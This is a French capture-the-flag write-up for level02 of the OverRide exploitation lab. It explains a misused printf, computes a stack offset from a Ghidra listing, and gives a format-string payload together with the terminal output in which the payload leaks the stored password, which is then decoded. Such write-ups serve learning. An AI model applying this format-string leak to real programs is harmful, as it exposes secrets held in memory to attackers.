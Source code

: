 ## Solution

Dans le code source on peu constater plusieur point :

un printf mal formater est utiliser, il affiche la variable local_78
la variable local_a8 contient le mot de passe du level3

On va donc essayer d'exploiter printf pour afficher la variable local_a8 :

```
    undefined8 __stdcall main(void)
    undefined8        RAX:8          <RETURN>
    undefined8        Stack[-0x10]:8 local_10                                XREF[5]:     00400889(W), 
    004008ad(W), 
    004008b1(R), 
    004008ed(R), 
    0040097d(R)  
    undefined4        Stack[-0x14]:4 local_14                                XREF[3]:     00400891(W), 
    00400906(W), 
    00400925(R)  
    undefined4        Stack[-0x78]:4 local_78                                XREF[6]:     0040082c(*), 
    00400843(*), 
    004009cd(*), 
    004009de(*), 
    00400a71(*), 
    00400a96(*)  
    undefined1        Stack[-0xa8]:1 local_a8                                XREF[5]:     00400849(*), 
    00400863(*), 
    004008e6(*), 
    00400909(*), 
    00400a51(*)  
    undefined4        Stack[-0x118   local_118                               XREF[5]:     00400869(*), 
    00400883(*), 
    00400a10(*), 
    00400a24(*), 
    00400a4a(*)  
    undefined4        Stack[-0x11c   local_11c                               XREF[1]:     0040081f(W)  
    undefined8        Stack[-0x128   local_128                               XREF[1]:     00400825(W)  
```

Ici local_a8 est a a8 de distance avec le haut de la stack 
a8 = 168 bytes de distance
168 / 8 (ou 4 sur architecture de 32bits) = 21

21 + 5 (les argument de l'appel de printf) = 26

le mot de passe fait fait une taille de 0x29 donc 41 en decimal, ce qui fait 5 print 

### Payload :
```
%26$p %25$p %24$p %23$p %22$p
```
```
----------------------------------------------------------------
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %26$p %25$p %24$p %23$p %22$p    
--[ Password: 
*****************************************
0x48336750664b394d 0x354a35686e475873 0x377a7143574e6758 0x45414a3561733951 0x756e505234376848 does not have access!
```

On retire les 0x et les espace :
```
48336750664b394d354a35686e475873377a7143574e675845414a3561733951756e505234376848 -> in ASCII -> H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH
```
on inverse et cela donne :
```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```